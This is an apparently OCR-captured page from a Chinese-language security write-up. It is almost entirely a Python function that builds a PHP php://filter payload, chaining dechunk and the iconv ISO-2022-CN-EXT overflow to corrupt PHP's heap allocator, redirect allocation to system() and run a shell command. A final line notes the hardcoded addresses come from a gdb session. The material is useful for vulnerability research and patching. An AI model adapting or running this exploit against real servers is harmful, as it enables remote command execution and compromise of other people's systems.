 ```
def chunked_add_bad_data(data: bytes, badData: bytes, totalsize: int)->bytes:    '''    php处理dechunk的时候有一个问题，首先判断长度，只处理0-9, A-F, a-f这些字符。    如果判断非这些字符，就会判断为处理长度结束，接着会判断下一个字符是否是\r或者\n，如果不是则跳过。    这让我们可以在长度和\n之间注入其他字符，这些字符有以下要求，开始的值不能为十六进制，中间不能含有\n或者\r。    一个示例：    b'00000010........\x00A\x00\x00\x00\x00\x00\x00AAAAAA\n000008\nAAAAAAAA\n\n'    这样往堆的0x10地址注入了0x4100    不过这种方案限制比较大，如果php的_zend_mm_heap地址包含0x0a或者0x0d，就不能用了    '''    dataSize = len(data)    chunk = f"{dataSize:x}".rjust(8, "0")    chunk = chunk.encode() + b"." * 8 + badData    end = b"\n" + data + b"\n"    chunk += b"A" * (totalsize - len(chunk) - len(end))    chunk += end    assert len(chunk) == totalsize    return chunk    def buildPayload() -> str:    '''    我们把一次处理dechunk + convert.iconv.的过程算一步    '''    heapSize = 0x100    BUG = "劄".encode("utf-8")    # _zend_mm_heap基地址    zend_heap_base = 0x7ffff5200040    # 第一步申请0x100的堆，第二步释放    # 第三次dechunk，长度小于0x100    step1_malloc_step2_free = chunked_add_bad_data(b"A" * 8, p64(zend_heap_base + 0x10) * 10, 0xA0)    # 第二次dechunk，长度小于0x100    step1_malloc_step2_free = chunked_chunk(step1_malloc_step2_free, heapSize)    # 第一次dechunk，长度等于0x100    step1_malloc_step2_free = compressed_bucket(step1_malloc_step2_free)    # 第二步申请0x100的堆，第三步释放    step2_malloc_step3_free = b"B" * 0x20    # 第三次dechunk，长度小于0x100    step2_malloc_step3_free = chunked_chunk(step2_malloc_step3_free, heapSize)    # 第二次dechunk，长度等于0x100    step2_malloc_step3_free = chunked_chunk(step2_malloc_step3_free)    # 第一次dechunk，长度大于0x100    step2_malloc_step3_free = compressed_bucket(step2_malloc_step3_free)    # 第三步触发bug    step3_trigger_bug = (0x100 - len(BUG)) * b"\x00" + BUG    # 确保长度为0x100    assert len(step3_trigger_bug) == 0x100    # 第三次dechunk，长度等于0x100    step3_trigger_bug = chunked_chunk(step3_trigger_bug)    # 第二次dechunk，长度大于0x100    step3_trigger_bug = chunked_chunk(step3_trigger_bug)    # 第一次dechunk，长度大于0x100    step3_trigger_bug = compressed_bucket(step3_trigger_bug)    # 第三次dechunk, 0\n    step3_trailer_chunk = b"0\n".ljust(0x48, b"\x00") + p64(zend_heap_base + 0x10)    step3_trailer_chunk += b"\x00" * (heapSize - len(step3_trailer_chunk))    # 第二次dechunk，长度等于0x100    step3_trailer_chunk = chunked_chunk(step3_trailer_chunk)    # 第一次dechunk，长度大于0x100    step3_trailer_chunk = compressed_bucket(step3_trailer_chunk)    step4_write_zend_heap = ptr_bucket(        0x200000,        0,        # free_slot        0,        0,        zend_heap_base + 0x168,  # 0x18        0,        0,        0,        0,        0,        0,        0,        0,        0,        0,        0,        0,        0,        zend_heap_base,  # 0x140        0,        0,        0,        0,        0,        0,        0,        0,        0,        0,        0,        0,        0,        size=0x100,    )    step4_write_zend_heap = chunked_chunk(step4_write_zend_heap)    step4_write_zend_heap = chunked_chunk(step4_write_zend_heap)    step4_write_zend_heap = compressed_bucket(step4_write_zend_heap)    mallocAddr = 0x7ffff7568120    systemAddr = 0x7ffff7513d60    reallocAddr = 0x7ffff75687c0    step4_write_custom_heap = ptr_bucket(        mallocAddr, systemAddr, reallocAddr, size=0x18    )    step4_write_custom_heap = chunked_chunk(step4_write_custom_heap)    step4_write_custom_heap = chunked_chunk(step4_write_custom_heap)    step4_write_custom_heap = compressed_bucket(step4_write_custom_heap)    step4_use_custom_heap_and_cmd = b"kill -9 $PPID; ls -alF"    step4_use_custom_heap_and_cmd = step4_use_custom_heap_and_cmd.ljust(0x140, b"\x00")    step4_use_custom_heap_and_cmd = qpe(step4_use_custom_heap_and_cmd)    step4_use_custom_heap_and_cmd = chunked_chunk(step4_use_custom_heap_and_cmd)    step4_use_custom_heap_and_cmd = chunked_chunk(step4_use_custom_heap_and_cmd)    step4_use_custom_heap_and_cmd = compressed_bucket(step4_use_custom_heap_and_cmd)    pages = (        step4_write_zend_heap * 4 +        step4_write_custom_heap +        step4_use_custom_heap_and_cmd +        step1_malloc_step2_free * 3 +        step2_malloc_step3_free * 2 +        step3_trigger_bug    )    resource = compress(pages)    resource = base64.b64encode(resource)    resource = f"data:text/plain;base64,{resource.decode()}"    filters = [        # zlib解压缩        "zlib.inflate",        # 第一步        "dechunk",        "convert.iconv.latin1.latin1",        # 第二步        "dechunk",        "convert.iconv.latin1.latin1",        # 第三步触发漏洞        "dechunk",        "convert.iconv.UTF-8.ISO-2022-CN-EXT",        # 第四步，写入数据然后执行命令        "convert.quoted-printable-decode",        "convert.iconv.latin1.latin1",    ]    filters = "|".join(filters)    path = f"php://filter/read={filters}/resource={resource}"    return path
```  
  
注意，因为提供的地址都是使用gdb调试时的地址，因此上面的Payload只能在调试状态下成功执行命令。  
  